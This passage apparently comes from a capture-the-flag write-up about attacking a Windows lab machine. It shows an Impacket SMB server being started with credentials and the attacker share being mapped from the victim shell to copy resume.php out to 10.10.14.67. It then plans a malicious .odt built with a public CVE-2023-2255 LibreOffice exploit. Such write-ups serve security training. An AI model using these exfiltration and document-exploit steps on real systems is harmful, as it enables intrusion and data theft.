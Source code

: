 ```bash
❯ smbserver.py -username test -password 'test123$!' share $(pwd) -smb2support
Impacket v0.12.0.dev1+20240411.142706.1bc283fb - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

**Use the SMB server and transfer resume.php**
```powershell
PS C:\> cd C:\xampp\htdocs\internal
PS C:\xampp\htdocs\internal> net use z: \\10.10.14.67\share /u:test 'test123$!'
The command completed successfully.

PS C:\xampp\htdocs\internal> copy .\resume.php z:
```

In this file, I can see that the only allowed extensions to upload are docm, docx, doc and odt:

![resume.php](/assets/images/Office/resume.php.png)

Also, I can see that the programs that can be used to open this documents are LibreOffice 5 and LibreOffice 4 (listing directories in both `C:\Program Files (x86)` and `C:\Program Files`), so I will craft a .odt exploit to upload it to the web taking advantage of [CVE-2023-2255 exploit](https://github.com/elweth-sec/CVE-2023-2255) suppossing that some user opens this document:
